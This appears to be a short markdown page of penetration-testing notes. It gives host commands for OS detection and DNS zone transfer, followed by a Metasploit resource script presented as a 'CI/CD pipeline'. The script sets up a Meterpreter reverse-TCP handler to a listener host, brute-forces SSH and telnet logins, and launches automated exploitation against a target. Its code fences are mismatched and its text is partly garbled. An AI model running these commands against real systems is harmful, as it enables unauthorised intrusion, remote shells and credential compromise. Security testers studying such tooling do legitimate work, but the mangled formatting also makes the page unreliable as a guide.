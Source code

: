 # Show the Operating System of a host

```ShellSession
host -v -V 192.168.1.37
```

# Lists all hosts in a domain, using AXFR

```ShellSession
host -l yourdomain.com
```

#

#

# 10. Create the Metasploit Pipeline CI/CD to make a PoC with the vulnerabilities that have your Applications

(Maximum 27 tasks in parallel each 8 hours)

```ShellSession
aptitude install neofetch
```

```ShellSession
cd /root
```

````ShellSession
nano /root/SA/sk/SAE.rc
```ShellSession
pro_user root
workspace sk
workspace
spool /root/SA/sk/r7nmapScan_spool
setg ExitOnSession false
setg VERBOSE true
<ruby>
run_single("set RHOSTS #{framework.db.hosts.map(&:address).join(' ')}")
</ruby>
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.0.4
setg target 0
version
neofetch
save
banner
pro_bruteforce deep -K -I -b 192.168.0.22 -s ssh,telnet -j -z -vvv -ddd
pro_exploit yourtarget.com -ea 3 -et 3 -l 10.0.0.4 -m auto -r great -b yourblacklist.com -j -z -vvv -ddd
run -j -z -vvv -ddd
````

